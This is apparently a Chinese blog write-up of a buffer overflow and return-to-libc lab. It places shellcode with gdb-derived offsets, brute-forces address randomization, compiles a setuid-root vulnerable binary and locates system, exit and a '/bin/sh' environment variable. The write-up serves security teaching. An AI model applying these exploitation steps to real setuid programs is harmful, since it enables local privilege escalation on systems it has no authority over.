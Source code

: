 代码解读：
1. 由于 buffer 的大小不足以放下 shellcode，所以将shell code 放置在上方 0x100 的位置。
2. 根据 stack.c 可以知道，内存中存放了一份 str 可以使用，这里将 ret 返回至 str 的 shell code 位置即可，于是需要找到该地址。
3. 使用 gdb 调试，在 shellcode 前写 "xxxxxxxx" 进行定位，获得其位置。
![](https://raw.githubusercontent.com/Zhuhai0247/blog-img/master/202210102141101.png)
4. 由于 gdb 获得的地址和 echo hello 获得的地址有偏移，这里查看 gdb 中 ebp 的位置，并进行偏移的转换。
![](https://raw.githubusercontent.com/Zhuhai0247/blog-img/master/202210102144466.png)
5. 最终，获得 ret = 0x7fffffffde40+1904，offset = ebp - start(buffer) + 8。

## task 6 Address Randomization 

首先打开地址随机化：
```
sudo /sbin/sysctl -w kernel.randomize_va_space=2
```
可以看到，在两次 echo hello 中，地址已经发生变化：
![](https://raw.githubusercontent.com/Zhuhai0247/blog-img/master/202210102144420.png)
这里可以采用暴力破解的方法，为了更容易地爆破到，将shell code 放置在栈的上方（高地址），使用 set-up 给出的 brute-force.sh 即可，在39168次时尝试成功：
![](https://raw.githubusercontent.com/Zhuhai0247/blog-img/master/202210102145216.png)


# Part B return to libc

## Task 1 2 3
首先通过命令行设置实验要求环境：
```shell
sudo sysctl -w kernel.randomize_va_space=0 //关闭栈初始化
sudo ln -sf /bin/zsh /bin/sh    // 绑定sh到zsh
gcc -m32 -DBUF_SIZE=N -fno-stack-protector -z noexecstack -o retlib retlib.c //编译
sudo chown root retlib  //更改权限
sudo chmod 4755 retlib  //更改权限
```
然后通过 gdb 查看 libc 中的 system、exit的地址：
```
touch badfile
gdb -q retlib
b main
r
p system
p exit
```
![](https://raw.githubusercontent.com/Zhuhai0247/blog-img/master/202210102145604.png)
然后植入环境变量 `/bin/sh`：
```c
export MYSHELL=/bin/sh
env | grep MYSHELL
gcc getenv.c -o getenv
./getshell

//以下为getenv.c

#include<stdio.h>
#include<stdlib.h>

void main(){
	char* shell = getenv("MYSHELL");
	if (shell)
		printf("%x\n", (unsigned int)shell);
}

```